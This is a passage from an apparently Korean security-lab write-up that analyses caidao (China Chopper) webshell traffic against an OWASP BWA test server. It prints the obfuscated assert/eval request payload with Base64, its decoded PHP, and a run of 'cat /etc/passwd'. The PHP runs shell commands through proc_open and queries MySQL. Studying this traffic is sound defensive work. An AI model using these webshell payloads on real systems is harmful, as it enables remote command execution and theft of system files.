                  "\t|\t";
                  $k++;
              }
              if ($k > 0) {
                  echo "\r\n";
                  while ($rs = @mysqli_fetch_row($q)) {
                      for ($c = 0; $c < $k; $c++) {
                          echo $rs[$c].
                          "\t|\t";
                      }
                      echo "\r\n";
                  }
              } else {
                  echo "Result\t|\t\r\nExecute Successfully!\t|\t\r\n";
              }
          } else {
              echo "Result\t|\t\r\nERROR: ".mysqli_error($T).
              "\t|\t\r\n";
          }
          mysqli_close($T);
      };
      echo("X@Y");
      die();

3. cat /etc/passwd 명령어 입력

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/91c2da3e-2ef7-4c1f-a10b-d4b3112894c3)

< caidao 툴에서 cat /etc/passwd 명령어 결과값 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/cb9f5f8d-20f7-4544-af2e-71d4a7a827a9)

< cat /etc/passwd 명령어 입력 시 패킷 덤프 >



      koromoon=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc".
      "OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZ
      V9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1l
      KDApO307ZWNobygiWEBZIik7JG09Z2V0X21hZ2ljX3F1b3Rlc19ncGMoKTskcD0nL2Jpbi9zaCc7JHM
      9J2NkIC9vd2FzcGJ3YS9vd2FzcGJyaWNrcy1zdm4vdXBsb2FkLTEvdXBsb2Fkcy87Y2F0IC9ldGMvcG
      Fzc3dkO2VjaG8gW1NdO3B3ZDtlY2hvIFtFXSc7JGQ9ZGlybmFtZSgkX1NFUlZFUlsiU0NSSVBUX0ZJT
      EVOQU1FIl0pOyRjPXN1YnN0cigkZCwwLDEpPT0iLyI%2FIi1jIFwieyRzfVwiIjoiL2MgXCJ7JHN9XC
      IiOyRyPSJ7JHB9IHskY30iOyRhcnJheT1hcnJheShhcnJheSgicGlwZSIsInIiKSxhcnJheSgicGlwZ
      SIsInciKSxhcnJheSgicGlwZSIsInciKSk7JGZwPXByb2Nfb3Blbigkci4iIDI%2BJjEiLCRhcnJheS
      wkcGlwZXMpOyRyZXQ9c3RyZWFtX2dldF9jb250ZW50cygkcGlwZXNbMV0pO3Byb2NfY2xvc2UoJGZwK
      TtwcmludCAkcmV0OztlY2hvKCJYQFkiKTtkaWUoKTs%3D'));\");"));

      ↓ Request 패킷 중에서 Base64 문자열 디코딩

      @ini_set("display_errors", "0");
      @set_time_limit(0);
      if (PHP_VERSION < '5.3.0') {
            @set_magic_quotes_runtime(0);
      };
      echo("X@Y");
      $m = get_magic_quotes_gpc();
      $p = '/bin/sh';
      $s = 'cd /owaspbwa/owaspbricks-svn/upload-1/uploads/;cat /etc/passwd;echo [S];pwd;echo [E]';
      $d = dirname($_SERVER["SCRIPT_FILENAME"]);
      $c = substr($d, 0, 1) == "/" ? "-c \"{$s}\"" : "/c \"{$s}\"";
      $r = "{$p} {$c}";
      $array = array(array("pipe", "r"), array("pipe", "w"), array("pipe", "w"));
      $fp = proc_open($r.
          " 2>&1", $array, $pipes);
      $ret = stream_get_contents($pipes[1]);
      proc_close($fp);

[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"
